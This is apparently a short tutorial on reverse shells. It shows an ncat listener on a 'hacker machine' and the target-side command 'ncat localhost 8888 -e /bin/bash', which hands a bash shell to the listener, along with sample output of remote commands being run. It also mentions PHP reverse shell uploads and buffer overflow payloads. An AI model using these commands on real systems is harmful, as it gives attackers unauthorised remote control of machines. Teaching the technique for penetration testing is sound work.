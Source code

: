 Step 1 : Hacker machine (waiting for incoming connection)
Step 2 : Server ==============> Hacker machine
To wait for incoming connections, a local socket listener has to be opened. Netcat/ncat can do this.
First a netcat server has to be started on local machine or the hacker's machine.

machine A
```
$ ncat -v -l -p 8888
Ncat: Version 6.00 ( http://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
```
The above will start a socket server (listener) on port 8888 on local machine/hacker's machine.

Now a reverse shell has to be launched on the target machine/hacked machine. There are a number of ways to launch reverse shells.

For any method to work, the hacker either needs to be able to execute arbitrary command on the system or should be able to upload a file that can be executed by opening from the browser (like a php script).

In this example we are not doing either of the above mentioned things. We shall just run netcat on the server also to throw a reverse command shell to demonstrate the concept. So netcat should be installed on the server or target machine.

Machine B :
```
$ ncat localhost 8888 -e /bin/bash
```
This command will connect to machine A on port 8888 and feed in the output of bash effectively giving a shell to machine A. Now machine A can execute any command on machine B.

Machine A
```
$ ncat -v -l -p 8888
Ncat: Version 5.21 ( http://nmap.org/ncat )
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 127.0.0.1.
pwd
/home/enlightened
```
In a real hacking/penetration testing scenario its not possible to run netcat on target machine. Therefore other techniques are employed to create a shell. These include uploading reverse shell php scripts and running them by opening them in browser. Or launching a buffer overflow exploit to execute reverse shell payload.
